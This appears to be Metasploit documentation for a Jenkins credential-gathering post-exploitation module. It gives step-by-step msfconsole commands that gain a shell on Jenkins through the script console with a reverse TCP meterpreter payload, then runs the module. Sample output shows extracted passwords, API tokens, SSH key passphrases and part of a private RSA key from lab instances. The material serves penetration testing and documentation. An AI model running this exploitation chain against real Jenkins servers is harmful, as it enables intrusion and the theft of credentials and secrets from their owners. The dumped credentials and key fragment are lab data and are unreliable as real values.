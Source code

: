 ## Vulnerable Application

  Official Source:
[Jenkins](https://jenkins.io/download/)

This module has been verified against:

  1. Jenkins 2.67 on Ubuntu 16.04 in Docker
  1. Jenkins 2.67 on Windows 7 SP 1
  1. Jenkins 2.60.1
  1. Jenkins 2.411 Docker image
  1. Jenkins 2.410 Windows 10
  1. Jenkins 2.410 Docker image
  1. Jenkins 2.409 Docker image
  1. Jenkins 2.401.1 Docker image
  1. Jenkins 2.346.3 Docker image
  1. Jenkins 2.103 Docker image
  1. Jenkins 1.565 Docker image
  1. Jenkins 1.56

## Verification Steps

  1. Set up Jenkins to obtain a shell (use Docker for quick setup)
  1. Run `docker run -p 8080:8080 -p 50000:50000 jenkins`
  1. Use the default setup and install "suggested plugins"
  1. Create new user admin, add a user or credential (via Manage Jenkins)
  1. Start msfconsole
  1. We'll use the `jenkins_script_console` module to quickly gain a shell
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST 172.17.0.1```
  1. Do: ```set RPORT 8080```
  1. Do: ```set TARGETURI /```
  1. Do: ```set USERNAME admin```
  1. Do: ```set PASSWORD or set API_TOKEN```
  1. Do: ```set TARGET 1```
  1. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
  1. Do: ```set LHOST 192.168.56.105```
  1. Do: ```exploit -j```
  1. Do: ```use post/multi/gather/jenkins_gather```
  1. Do: ```set SESSION 1```
  1. Do: ```run```
  1. You should see the saved credentials output

## Options

  **SEARCH_JOBS**

  This option searches through the `jobs` folder for interesting
keywords but obviously increases runtime on larger instances.

  **STORE_LOOT**

  This option saves interesting files and loot to disk. If set to
false will simply output data to console.

## Scenarios

**Jenkins on Windows**

```
msf post(jenkins_gather) > sessions

Active sessions
===============

  Id  Type                     Information                   Connection
  --  ----                     -----------                   ----------
  18  shell x86/linux                                        192.168.56.105:4444 -> 192.168.56.1:58828 (172.17.0.1)
  20  meterpreter x86/linux    uid=0, gid=0, euid=0, egid=0  192.168.56.105:4444 -> 192.168.56.1:58974 (172.17.0.2)
  21  meterpreter x86/windows  NT AUTHORITY\SYSTEM @ kali    192.168.56.105:4444 -> 192.168.56.101:50427 (192.168.56.101)
  23  shell x86/windows                                      192.168.56.105:4444 -> 192.168.56.101:50793 (192.168.56.101)

msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch: 
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user 
  tokens, SSH keys, and secrets. Interesting files will be stored in 
  loot along with combined csv output.


msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at C:\Program Files\Jenkins
[+] Credentials found - Username: user1 Password: Password123456
[+] SSH Key found! ID: 83c6a18f-6b35-420a-8534-cc505c3347b5 Passphrase: secretpassphrase123 Username: sshkey1 Description: interesting description
[+] Job Info found  - Job Name:  User: testpass Password: secretpass123
[+] Job Info found  - Job Name:  User: testpass Password: ohwowosupersecret
[+] Node Info found - Name: test Host: hostnode1.lab.local Port: 22 CredID: 972fc428-dd7c-46ea-a119-be78ae0866ad
[+] API Token found - Username: admin Token: 8a114e0fa48c1a489c39b98e94c986c8
[+] API Token found - Username: useruseruser Token: 6810c3f6ccca939ac2a8b8ac4b9de012
[*] Searching through job history for interesting bits...
[+] Job Log truffles:
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:"secret is secret"
...
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:"secret is secret"
[+] 
Creds
=====

 Username  Password           Description
 --------  --------           -----------
                                          
 testpass  secretpass123                   
 testpass  ohwowosupersecret  
 user1     Password123456     

[+] 
API Keys
========

 Username      API Tokens
 --------      ----------
 admin         8a114e0fa48c1a489c39b98e94c986c8
 useruseruser  6810c3f6ccca939ac2a8b8ac4b9de012

[+] 
Nodes
=====

 Node Name  Hostname             Port  Description   Cred Id
 ---------  --------             ----  -----------   -------
 test       hostnode1.lab.local  22    testtesttest  972fc428-dd7c-46ea-a119-be78ae0866ad

[+] SSH Key
[*]  ID: 83c6a18f-6b35-420a-8534-cc505c3347b5
[*]  Description: interesting description
[*]  Passphrase:  secretpassphrase123
[*]  Username:    sshkey1
[*] 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuTfL0ijR0JDLTQC092ZolnkTJGRi7YQInK/K1ZFDFc44JOSU
...snip...
7Ad+Ja6+51ECnXJIFKPj7binB6/C10YVqHh4KON3DeA6ZA7ZpUko
-----END RSA PRIVATE KEY-----

[*] Post module execution completed


```

**Jenkins 2.67 on Ubuntu 16.04**

```
msf post(jenkins_gather) > set session 20
session => 18
msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch:
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user
  tokens, SSH keys, and secrets. Interesting files will be stored in
  loot along with combined csv output.

msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at /root/.jenkins
[+] Credentials found - Username: thanksforthefish Password: whatagreatbook
[+] API Token found - Username: user1 Token: 859e1d6ee6ab85804434fa5395ab962d
[+] API Token found - Username: admin Token: 9da706c125a4b5a4c19b1f799723175c
[*] Searching through job history for interesting bits...
[+] 
Creds
=====

 Username          Password         Description
 --------          --------         -----------
 thanksforthefish  whatagreatbook

[+] 
API Keys
========

 Username  API Tokens
 --------  ----------
 admin     9da706c125a4b5a4c19b1f799723175c
 user1     859e1d6ee6ab85804434fa5395ab962d

[*] Post module execution completed
```
